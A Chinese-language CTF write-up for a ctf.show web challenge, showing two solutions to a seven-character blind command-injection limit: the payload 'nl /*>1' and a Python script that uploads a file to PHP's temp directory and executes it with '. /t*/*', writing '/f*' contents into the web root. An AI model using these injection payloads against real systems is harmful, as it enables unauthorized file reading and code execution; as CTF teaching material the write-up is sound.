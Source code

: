 # WEB

## 前言

群主出的四个题，三个都是很基础，跟着好好做了题就能理解的，这几题我尽量多写出来几种解法

## web签到

+++

七字符，可出网，无回显

### 第一种

直接读，七字符是完完全全可以读的了(如果flag在常规位置的话)

```sh
nl /*>1
将/*中可以被nl的文件(不是文件夹)读取之后存入1
然后用记事本访问1就可以了
```

### 第二种

有一个入口，能访问到临时文件，就可以用文件上传的办法(参考无字母RCE)
本来是想和无字母RCE一样用bp抓包发包，但是的这个bp一个文件上传请求，一个POST传cmd，就会出莫名其妙的问题，怎么也发不成

于是考虑群主WP里面的py脚本咯(脚本确实方便太多了)

```py
#直接拿的群主写的脚本，因为觉得这种写法很优雅，所以没有改动
import requests

__AUTHOR__ = "h1xa"

url = "http://f1d8590e-b741-4a9a-8e4d-75c25f7e555f.challenge.ctf.show/"


def getFlag():
  file={
  "file":"cat /f*>/var/www/html/1.txt"
  }

  data={
    "cmd":". /t*/*"
  }
  response = requests.post(url=url+"api/tools.php",files=file,data=data)
  if "t*" in response.text:
    print("执行成功，检查回显...")
  response = requests.get(url=url+"1.txt")
  if response.status_code == 200:
    print("flag 获取成功 "+response.text)
  else:
    print("flag 获取失败")

if __name__ == '__main__':
  getFlag()


```
